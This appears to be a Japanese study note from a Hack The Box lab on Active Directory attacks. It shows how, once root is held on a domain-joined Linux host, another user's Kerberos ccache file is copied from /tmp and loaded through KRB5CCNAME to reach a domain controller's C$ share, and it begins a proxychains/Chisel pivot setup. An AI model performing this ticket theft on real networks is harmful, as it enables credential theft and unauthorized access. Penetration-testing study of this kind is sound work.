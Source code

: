 ### ccacheでより多くのハッシュを取得する
前提　: ADに参加しているlinux上でrootを取得済
- ccacheファイルを悪用するには、必要なのはファイルの読み取り権限だけ
- ccacheファイルは、作成したユーザーだけが読むことができるが、ルートを取得すれば全て閲覧できる

全ユーザーのccacheファイルを取得する
-  狙い : まだログイン情報を取得できていないユーザーを探す
```shell-session
ls -la /tmp
```

idコマンドで、グループメンバーを識別する
```shell-session
id julio@inlanefreight.htb
```
Domain Adminsグループ : ドメインコントローラーホストへのアクセスを行える
ccacheファイルを使用するには、ccacheファイルをコピーし、ファイルパスを`KRB5CCNAME`変数に割り当てる

ccacheファイルを現在のセッションにインポートする
```shell-session
klist
cp /tmp/krb5cc_647401106_I8I133 .
export KRB5CCNAME=/root/krb5cc_647401106_I8I133
klist
smbclient //dc01/C$ -k -c ls -no-pass
```

| コマンド | 説明 |
|----------|------|
| `klist` | 現在の Kerberos チケットを確認 |
| `cp /tmp/krb5cc_* .` | `/tmp/` 内の Kerberos チケットをコピー（バックアップ） |
| `export KRB5CCNAME=/root/krb5cc_*` | Kerberos チケットを設定し、使用するよう指定 |
| `klist` | 設定されたチケットを再確認 |
| `smbclient //dc01/C$ -k -c ls -no-pass` | Kerberos 認証を使い、Windows の SMB 共有フォルダにアクセス |
### KerberosでLinux攻撃ツールを使用する
今までは、ドメイン参加マシンからは接続できても、攻撃者のkali linuxとかは接続は想定していなかった。
このシナリオでは、攻撃者のKali Linuxを[Chisel](https://github.com/jpillora/chisel)や[Proxychains](https://github.com/haad/proxychains)などのツールを使用して、ドメイン参加マシンのMS01を介して通信する方法を学ぶ

まず`/etc/hosts`ファイルに登録する
```shell-session
snowyowl644@htb[/htb]$ cat /etc/hosts

# Host addresses

172.16.1.10 inlanefreight.htb   inlanefreight   dc01.inlanefreight.htb  dc01
172.16.1.5  ms01.inlanefreight.htb  ms01
```

socks5とポート1080を使用するように、プロキシチェーンの設定ファイルを変更する
```shell-session
snowyowl644@htb[/htb]$ cat /etc/proxychains.conf

<SNIP>

[ProxyList]
socks5 127.0.0.1 1080
```
